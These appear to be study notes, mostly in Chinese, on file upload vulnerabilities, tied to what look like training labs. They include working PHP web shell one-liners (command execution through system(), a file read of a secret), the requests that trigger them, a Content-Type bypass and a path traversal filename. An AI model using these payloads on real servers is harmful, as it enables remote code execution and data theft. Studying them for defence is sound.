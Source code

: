 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

PHP 
- "<?php echo file_get_contents('/path/to/target/file'); ?>"
- "<?php echo system($_GET['command']); ?>"
- GET /example/exploit.php?command=id HTTP/1.1

## Lab: Remote code execution via web shell upload
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<?php echo file_get_contents('/home/carlos/secret'); ?>)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png

## Lab: Web shell upload via Content-Type restriction bypass
- change Content-Type : image/jpeg

## Lab: Web shell upload via path traversal
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
